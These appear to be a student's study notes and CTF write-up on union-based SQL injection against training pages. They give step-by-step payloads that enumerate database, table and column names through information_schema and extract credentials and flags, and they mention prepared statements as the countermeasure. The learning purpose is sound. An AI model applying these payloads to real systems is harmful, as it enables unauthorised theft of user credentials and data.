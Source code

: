 # Union SQL Injection

## Part 1. How to solve CTF
1. You have to find the reason for the problem.
2. check step by step - debugging
3. [Beginners Guide to Web Hacking CTFs](https://medium.com/@isaacwangethi30/beginners-guide-to-web-hacking-ctfs-9ef04e7c5df5)

## Part 2. CTF Solution
1. Admin is mine
- It blocks the login page on JavaScript.
2. Burp Suite = how to modify the response
3. Countermeasure of SQL Injection = Prepared Statement

## Part 3. SQL Injection - Data Extraction
1. The place where we use data in the database
2. The data display or not
- Display = Board
- Not display = login, ID double check
3. Data Extraction
- It brings all data, but it cannot bring other tables
```javascript
select * from board where idx= '______' or '1' = '1'
```
- union  = it can use the select function again, and the column number must be the same
ex) select pass from member union select id from member
ex) select id, pass from member union select 1,2
- order by = sort
ex) select ~~~ order by [column name]
ex) select id from member order by id

## Part 4. Union SQL Injection
- Union SQL Injection Process
1. Find out the point of the SQL Injection
* Type the part of words
```javascript
select * from table where name like '%______%'
```
```javascript
over%' and '1%' = '1
```
2. Find the number of Columns
* Find out how many columns it is to type sequence numbers
```javascript
over%' order by 1 #
```
3. Find the number of print column location
* It shows the displayed numbers
```javascript
over%' union select 1,2,3,4 #
```
* select pass from member
```javascript
over%' union select 1,pass,3,4 #
```
4. Find DB name: segault_sql
```javascript
select database()
over%' union select 1,database(),3,4 #
```
5. Find Table name
```javascript
information_schema.tables
select table_name from information_schema.tables where table_schema = 'DB Name'
over%' union select 1,table_name,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
6. Find Column name
```javascript
select column_name from information_schema.columns where table_name = 'table name'
over%' union select 1,column_name,3,4 from information_schema.columns where table_name = 'member' #
```
7. Find Data
```javascript
select id, pass from member
over%' union select 1, id, pass, 4 from member
```

## Part 5 - Assignment
1. Review Union SQL Injection (HTTP://ctf.segfaulthub.com:1020/sqlInjection3.php)

2. dol dol data (only one result) (HTTP://ctf.segfaulthub.com:1020/sqlInjection_2_1.php)<br>

a. Find out the point of the SQL Injection
```javascript
1234' or '1' ='1
```
b. Find the number of columns
```javascript
1234' order by 4 #
```
c. Find the number of print column locations
```javascript
1234' union select 1,2,3,4 #
```
d. Find DB name
```javascript
1234' union select database(),2,3,4 #
```
e. Find Table name
```javascript
1234' union select table_name,2,3,4 from information_schema.tables where table_schema = 'segfault_sql' #
```
f. Find column name
```javascript
1234' union select column_name,2,3,4 from information_schema.columns where table_name = 'member' #
```
g. Find Data
```javascript
0000' union select id,pass,email,info from member where id = 'doldol' #
```

3. CTF questions<br>
* SQL Injection 1 <br>
a. Find out the point of the SQL Injection
```javascript
ad%' and 1=1 #
```
b. Find out the number of columns
```javascript
ad%' order by 4 #
```
C. Find out the number of print column locations
```javascript
ad%' union select 1,2,3,4 #
```
d. Find DB name
```javascript
ad%' union select database(),2,3,4 #  => 	sqli_1
```
e. Find table name
```javascript
ad%' union select table_name,2,3,4 from information_schema.tables where table_schema = 'sqli_1' #
```
f. Find column name
```javascript
ad%' union select column_name,2,3,4 from information_schema.columns where table_name = 'flag_table' #
```
g. Find data
```javascript
ad%' union select flag, 2, 3, 4 from flag_table #
```

* SQL Injection <br>
a. The point? = When I typed nomaltic, the information showed "My name is normaltic", but when I typed "admin", it doesn't show anything. Which means, depending on the name, the information changes. So, when it tried SQL injection "admin' or '1", it showed "my name is normaltic"
b. The number of columns?
```javascript
admin' order by 6 #
```
c. location?
```javascript
admin' union select 1,2,3,4,5,6 #   => only showing "6"
```
d. database?
```javascript
admin' union select 1,2,3,4,5,database() #    => sqli_5
```
e. table? = flag_honey
```javascript
admin' union select 1,2,3,4,5,table_name from information_schema.tables where table_schema = 'sqli_5' #     
```
f. column name? = flag
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'flag_honey' #
```
g. data? = kkkkkkk_Not Here!
```javascript
admin' union select 1,2,3,4,5,flag from flag_honey #
```
h. other data?
```javascript
admin' union SELECT 1, 2, 3, 4, 5, group_concat(table_name) from information_schema.tables where table_schema = 'sqli_5' #
```
- [Find hidden information](https://www.w3resource.com/mysql/aggregate-functions-and-grouping/aggregate-functions-and-grouping-group_concat.php)<br>
<br>i. other data?
```javascript
admin' union select 1,2,3,4,5,column_name from information_schema.columns where table_name = 'secret' #
```
j. other data?
```javascript
admin' union select 1,2,3,4,5,flag from secret #    => NONONO~~~~
```
k. other data?
```javascript
admin' union select 1,2,3,4,5,group_concat(flag) from secret #
```

4. Web development
- mypage
